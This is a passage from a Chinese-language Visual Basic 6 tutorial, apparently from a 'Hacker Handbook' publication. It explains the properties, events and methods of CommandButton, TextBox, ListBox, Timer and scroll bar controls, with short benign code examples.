

#### 4. Enabled 属性

该属性用于设置按钮是否可用。当 Enabled 为 True 时，按钮可用；为 False 时按钮不可用，此时按钮为灰色，即灰键，如图 1-35 所示。当按钮的 Enabled 属性为 False 时，是不会响应用户事件的，也就是说，你点击按钮是没有反应的。



#### 5. Picture 属性

该属性用于设置按钮控件上需要显示的图片。但是请大家注意，这里图片是需要用 LoadPicture 函数来载入的，并不是说直接设置成图片的路径就行了。再有就是，只有在按钮的 Style 属性设置成 1，也就是 `vbButtonGraphical` 时，我们设置的图片才会有效果。下面举例说明怎样在按钮上显示图片，首先设置按钮的 Style 属性为 1，然后写入如下代码：

```vb
Command1.Picture = LoadPicture("D:\picture\New\button.bmp")
```

问：上面的 LoadPicture 是什么意思？

答：LoadPicture 是一个函数，用于将图形载入到窗体的 Picture 属性、PictureBox 控件或 Image 控件。我们在它的参数中添加图片的路径就行了。形式是：LoadPicture(图片路径)。

> 提示：如果为按钮设置了背景颜色（即 BackColor 属性），也是需要将 Style 属性设置成 1 时才生效。

### 6. Visible

该属性用于设置按钮是否可见。当 Visible 为 True 时，按钮可见，而当它为 False 时，则不可见。

#### 7. 设置控件大小和位置的属性

至于 Height、Width、Left、Top 属性，则是许多控件都拥有的，它们用于设置控件在窗体上显示的大小和窗体的位置：

- Height 属性用于设置控件高度。
- Width 属性用于设置控件宽度。
- Left 属性用于设置控件最左侧的 X 坐标。
- Top 属性用于设置控件最上端的 Y 坐标。



需要注意的是，在 VB 里坐标原点是位于窗体的左上角处，如图 1-36 所示。同样地，屏幕的坐标原点也是在左上角。窗体在屏幕中显示的位置也是采用坐标来描述的。当一个窗体的 Top 和 Left 被设置为很小的负数或者很大的正数时，它可能会超出屏幕的范围，以致用户根本看不到它。

#### 8. Click 事件

按钮控件最重要的一个事件是 Click 事件，即单击事件。当用户单击按钮时，将触发 Command 按钮的 Click 事件，并执行我们为 Click 事件编写的相应代码。例如：

```vb
Private Sub Command1_Click()
    MsgBox "你单击了按钮"    ' 弹出提示对话框
End Sub
```

这里，Private 限定 Sub 过程的作用域，如果想要在其他窗体中调用本 Sub 过程，则可以将 Private 改为 Public。Command1 是对象的名称，而 Click 则是对象的事件。括号中是过程的参数，留空表明没有参数。在控件数组中，通常会有一个很重要的参数，即 Index（索引值）。

问：在其他窗体中怎样调用本窗体中的 Sub 过程？

答：假设我们需要调用窗体 Form1 中 Command1 的 Click 事件对应的 Sub 过程，则可以使用代码：`Call Form1.Command1_Click`，但请读者朋友们注意，这里的 Command1_Click 过程必须是 Public 过程。如果是在本窗体中的其他部分调用这个 Sub 过程，则可以省略 Form1，只需要写：`Call Command1_Click`。

### 1.9.3 TextBox 控件

TextBox 控件用于用户输入，它被使用得非常普遍。例如当我们需要输入用户名和密码时，通常就是使用 TextBox 控件来提供输入框。它最重要的几个属性是：

- BackColor —— 返回或设置文本框的背景颜色。
- ForeColor —— 返回或设置在文本框中显示文本的前景颜色。
- Enabled —— 返回或设置一个值，以确定文本框是否响应用户事件。
- Font —— 用于设置文本框的字体。
- MaxLength —— 用于设定在文本框中能够输入的最多字符数。例如，我们可以限定用户只能输入少于等于 15 个字符：`Text1.MaxLength = 15`。
- MultiLine —— 返回或设置一个值，该值指定 TextBox 控件是否能够接受和显示多行文本。在运行时这个属性是只读的。
- PasswordChar —— 返回或设置一个值，该值指定所键入的字符或占位符在 TextBox 控件中的显示方式，即输入内容在控件中是否要显示出来。例如，我们可以将 PasswordChar 设置成“*”，此时用户输入的文本都将以星号代替，而不会直接显示出来。
- ScrollBars —— 返回或设置一个值，该值指定一个 TextBox 是有水平滚动条还是有垂直滚动条。在运行时是只读的。其值请参考下面的表格：

| 常量 | 值 | 说明 |
|---|---:|---|
| VbSBNone | 0 | （缺省值）无 |
| VbHorizontal | 1 | 水平 |
| VbVertical | 2 | 垂直 |
| VbBoth | 3 | 两种 |



- Text —— 返回或设置文本框中的文本。
- SelText —— 本属性返回或设置当前所选中文本的字符串，如果没有选中的字符串，那么返回值为空字符串，即 VbNullString。如图 1-37 所示，此时的 Text1.SelText 将返回“黑客手册”。
- SelStart —— 返回或设置所选择文本的起始点，如果没有文本被选中，则指出插入点的位置。
- SelLength —— 返回或设置所选择字符串中的字符数。

> **提示：**通常，我们选中文本是为了复制和粘贴。在 VB 中，可以使用剪贴板来实现对文本和图形的复制和粘贴操作（VB 中剪贴板是 Clipboard 对象）。Clipboard 对象拥有基本的几个方法：
>
> 1. **Clear 方法**：用于清除系统剪贴板的内容。使用方法：`Clipboard.Clear`。  
> 2. **SetText 方法**：该方法用于将文本字符串保存到 Clipboard 对象中。使用前请先清除剪贴板原有内容。  
> 3. **GetText 方法**：用于返回 Clipboard 对象中的文本字符串。

```vb
Clipboard.Clear
Clipboard.SetText Text1.Text

Text2.Text = Clipboard.GetText

Public Sub Command1_Click()
    Clipboard.Clear                 ' 清空剪贴板
    Clipboard.SetText Text1.Text    ' 将 TextBox1 中的内容保存到剪贴板
End Sub

Private Sub Command2_Click()
    Text2.Text = Clipboard.GetText  ' 将剪贴板中的内容保存到 Text2 中
End Sub
```

Change 事件是 TextBox 最重要的事件，它是当文本框中的内容改变时触发的。请看下面的代码：

```vb
Private Sub Text1_Change()
    MsgBox "文本框中内容已经改变"
End Sub
```

GotFocus 事件：当文本框获得焦点时触发该事件。所谓获得焦点，其实就是指被激活。在 Windows 操作系统中，只能有一个程序拥有焦点。LostFocus 事件则是当文本框失去焦点时触发。



### 1.9.4 ListBox 控件

ListBox 控件用于显示列表信息，我们可以从中选择一项或多项。如果项目总数超过了列表框能够显示的项目数，ListBox 控件将自动添加滚动条。它非常重要的几个属性有：

- **List 属性** —— 用于返回或设置列表项目。基本形式是：`List(index)`，Index 是项目的索引值，第一项的索引值是 0，也就是说 `List1(0)` 将返回 List1 中第一项的值。在设计的时候，我们也可以在 List 中添加项目。
- **ListCount 属性** —— 用于返回列表中项目的总个数。
- **ListIndex 属性** —— 返回或设置控件中当前被选择项目的索引。
- **SelCount 属性** —— 返回在 ListBox 控件中被选中项的数量。
- **Selected 属性** —— 返回或设置在 ListBox 中一个项目的选择状态。基本形式是：`Object.Selected(index) [= boolean]`，其中 Object 是 ListBox 的名称，Index 是项目的索引值，Boolean 可以为 True 或 False。
- **Text 属性** —— 返回 ListBox 中选中项目的文本内容。
- **MultiSelect 属性** —— 返回或设置一个值，该值指示是否能够在 ListBox 控件中进行复选以及如何进行复选（运行时只读）。

- `0`（缺省值）不允许复选。
- `1` 简单复选。鼠标单击或按下 SPACEBAR（空格键）在列表中选中或取消选中项。
- `2` 扩展复选。可结合 SHIFT、CTRL 与方向键进行多项选择。

Style 属性用于返回或设置一个值，该值用来指示控件的显示类型。它可能的值请参考下面的表格：

| 常数 | 值 | 描述 |
|---|---:|---|
| VbListBoxStandard | 0 | （缺省值）标准。ListBox 按它在 VB 老版本中的样子显示，即像文本项的列表。 |
| VbListBoxCheckbox | 1 | 复选框。在 ListBox 控件中，每一个文本项的边上都有一个复选框。在 ListBox 中可以选择多项。 |



当它的值被设置成 1-CheckBox 时，外观显示如图 1-39 所示，会在左侧多出一个复选框。  
AddItem 方法用于向列表框中添加一个新的项目。其基本形式是：列表框名称.AddItem 字符串或字符串变量，索引值。这里的索引值可以指定内容添加到列表框中的第几项，如果要添加到第 2 项，则索引值是 1。例如，我们需要向图 1-38 添加一个“《黑客手册》第一季度合集”到第 3 项后面，则可以使用代码：`List1.AddItem "《黑客手册》第一季度合集", 3`，这行代码运行后如图 1-40 所示。

如果索引值被省略，则默认追加到列表的最后。

Clear 方法用于清除列表框中的所有项目。使用方法是：列表框名称.Clear。

RemoveItem 方法用于从列表框中删除一项。它的基本形式是：列表框名称.RemoveItem 索引值。例如，我们需要从 ListBox 中删除第二项，则可以使用：



```vb
List1.RemoveItem 1    ' 请记住第一项的索引值是0，第二项的应该是1
```

如果需要删除选中的项目，可以使用类似下面的形式：

```vb
List1.RemoveItem List1.ListIndex    ' ListIndex 是选中项的索引值
```

为了让读者朋友们更全面地了解 ListBox 的用法，下面举例说明 ListBox 的几个用法：

```vb
List1.AddItem "非安全黑客手册", 0         ' 添加第一个项目
List1.AddItem "Nohack"                   ' 添加第二个项目
List1.AddItem "Www.Nohack.Cn", 2         ' 添加第三个项目
MsgBox List1.List(0)                     ' List1.List(0) 返回第一个项目的值
MsgBox List1.ListCount                   ' 返回 ListBox 中项目的总数
List1.Selected(1) = True                 ' 默认选中第二项
MsgBox List1.ListIndex                   ' 返回当前选中项目的索引
```

由于组合框控件 ComboBox 与 ListBox 控件使用起来极为相似，我们这里不做单独介绍。

### 1.9.5 Timer 控件

Timer 控件（即时钟控件）可以允许程序在设定的时间间隔内执行一次 Timer 事件中的代码。其最重要的属性是 Enabled（是否可用）、Interval（设定执行的时间间隔）。需要注意的是，Timer 控件的 Interval 属性是以毫秒为单位的。首先将 Timer1 的 Interval 设置成 1000，然后为 Timer 事件添加下面的代码：



```vb
Private Sub Timer1_Timer()
    Me.Caption = Now    ' 将窗体的标题设置成当前的日期时间
End Sub
```

我们将 Timer1 的 Interval 设置成了 1000，则每秒钟会执行一次 Timer 事件中的代码，窗体的标题会改变为当前的日期和时间，程序运行后如图 1-41 所示。

> 提示：Timer 控件仅在设计时可见，程序运行之后是不可见的。

### 1.9.6 HScrollBar 控件和 VScrollBar 控件

HScrollBar 和 VScrollBar 是滚动条控件。HScrollBar 是横向滚动条（H 是 Horizontal 的首字母），而 VScrollBar 是纵向滚动条（V 是 Vertical 的首字母）。使用滚动条，可以调整数值、定位信息等。

#### 1. Max 属性和 Min 属性

Max 属性用于设置当滑块滑动到最右边或者最下边时候的值，而 Min 用于设置当滑块滑动到最左边或者最上面时候的值。默认值 Max=32767，Min=0。

#### 2. Value 属性

Value 属性用于返回或设置滚动条的当前位置，它的值始终位于 Min 和 Max 之间。

#### 3. SmallChange 属性

SmallChange 属性用于返回或设置当用户单击滚动箭头时，滚动条控件的 Value 属性值的改变量。如图 1-42 所示。



#### 4. LargeChange 属性

返回和设置当用户单击滚动条和滚动箭头之间的空白区域时，滚动条控件（HScrollBar 或 VScrollBar）的 Value 属性值的改变量。



## 1.10 菜单的建立和使用

在 VB 窗体中我们可以建立和使用菜单。菜单的形式如图 1-43 所示。

建立菜单的方法是在窗体上单击右键，选择菜单编辑器，或者是在窗体上按下快捷键 Ctrl+E，菜单编辑器的视图如图 1-44 所示。

